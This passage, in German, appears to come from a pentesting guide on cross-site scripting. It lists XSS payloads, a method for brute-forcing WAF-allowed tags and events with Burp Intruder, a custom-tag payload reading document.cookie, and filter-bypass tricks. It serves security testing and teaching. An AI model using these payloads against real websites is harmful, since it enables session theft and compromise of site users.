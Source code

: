 In diesem Fall und wenn keine Black-/Whitelisting verwendet wird, könntest du Payloads wie verwenden:
```html
<script>alert(1)</script>
<img src=x onerror=alert(1) />
<svg onload=alert('XSS')>
```
Aber wenn Tags/Attribute Black-/Whitelisting verwendet wird, müssen Sie **brute-forcen, welche Tags** Sie erstellen können.\
Sobald Sie **herausgefunden haben, welche Tags erlaubt sind**, müssen Sie **brute-forcen, welche Attribute/Ereignisse** innerhalb der gefundenen gültigen Tags vorhanden sind, um zu sehen, wie Sie den Kontext angreifen können.

### Tags/Ereignisse brute-force

Gehen Sie zu [**https://portswigger.net/web-security/cross-site-scripting/cheat-sheet**](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) und klicken Sie auf _**Tags in die Zwischenablage kopieren**_. Senden Sie dann alle mit Burp Intruder und überprüfen Sie, ob irgendwelche Tags nicht als bösartig vom WAF entdeckt wurden. Sobald Sie herausgefunden haben, welche Tags Sie verwenden können, können Sie **alle Ereignisse brute-forcen** mit den gültigen Tags (klicken Sie auf derselben Webseite auf _**Ereignisse in die Zwischenablage kopieren**_ und folgen Sie dem gleichen Verfahren wie zuvor).

### Benutzerdefinierte Tags

Wenn Sie kein gültiges HTML-Tag gefunden haben, können Sie versuchen, **ein benutzerdefiniertes Tag zu erstellen** und JS-Code mit dem `onfocus`-Attribut auszuführen. In der XSS-Anfrage müssen Sie die URL mit `#` beenden, um die Seite **auf dieses Objekt zu fokussieren** und den Code **auszuführen**:
```
/?search=<xss+id%3dx+onfocus%3dalert(document.cookie)+tabindex%3d1>#x
```
### Blacklist Bypasses

Wenn eine Art von Blacklist verwendet wird, könnten Sie versuchen, sie mit einigen einfachen Tricks zu umgehen:
```javascript
//Random capitalization
<script> --> <ScrIpT>
<img --> <ImG

//Double tag, in case just the first match is removed
<script><script>
<scr<script>ipt>
<SCRscriptIPT>alert(1)</SCRscriptIPT>

//You can substitude the space to separate attributes for:
/
/*%00/
/%00*/
%2F
%0D
%0C
%0A
%09

//Unexpected parent tags
<svg><x><script>alert('1'&#41</x>

//Unexpected weird attributes
<script x>
<script a="1234">
<script ~~~>
<script/random>alert(1)</script>
<script      ///Note the newline
```